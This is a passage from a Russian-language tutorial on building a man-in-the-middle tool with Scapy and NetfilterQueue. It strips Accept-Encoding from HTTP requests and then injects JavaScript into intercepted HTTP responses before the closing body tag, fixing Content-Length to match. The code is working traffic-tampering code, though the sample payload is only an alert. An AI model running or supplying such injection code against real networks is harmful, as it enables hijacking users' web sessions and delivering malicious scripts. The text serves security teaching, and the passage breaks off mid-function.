 Это только половина функции:

Мы преобразуем наш пакет Netfilterqueue в пакет Scapy, обертывая packet.get_payload() пакетом IP().
Если пакет является необработанным слоем (каким-то видом данных) имеет уровень TCP, а порт назначения равен 80, то это определенно HTTP-запрос.
В HTTP-запросе мы ищем заголовок Accept-Encoding, если он доступен, то мы просто удаляем его, чтобы мы могли получить HTTP-ответы в виде необработанного HTML-кода, а не какого-то сжатия, такого как gzip.
Мы также устанавливаем длину IP-пакета, контрольные суммы уровней TCP и IP в Значение None, поэтому Scapy автоматически пересчитает их.
Далее, вот другая часть обнаружения HTTP-ответов:

        if spacket[TCP].sport == 80:
            # HTTP response
            print(f"[*] Detected HTTP Response from {spacket[IP].src} to {spacket[IP].dst}")
            try:
                load = spacket[Raw].load.decode()
            except:
                packet.accept()
                return
            # if you want to debug and see the HTML data
            # print("Load:", load)
            # Javascript code to add, feel free to add any Javascript code
            added_text = "<script>alert('Javascript Injected successfully!');</script>"
            # or you can add HTML as well!
            # added_text = "<p><b>HTML Injected successfully!</b></p>"
            # calculate the length in bytes, each character corresponds to a byte
            added_text_length = len(added_text)
            # replace the </body> tag with the added text plus </body>
            load = load.replace("</body>", added_text + "</body>")
            if "Content-Length" in load:
                # if Content-Length header is available
                # get the old Content-Length value
                content_length = int(re.search(r"Content-Length: (\d+)\r\n", load).group(1))
                # re-calculate the content length by adding the length of the injected code
                new_content_length = content_length + added_text_length
                # replace the new content length to the header
                load = re.sub(r"Content-Length:.*\r\n", f"Content-Length: {new_content_length}\r\n", load)
                # print a message if injected
                if added_text in load:
                    print(f"{GREEN}[+] Successfully injected code to {spacket[IP].dst}{RESET}")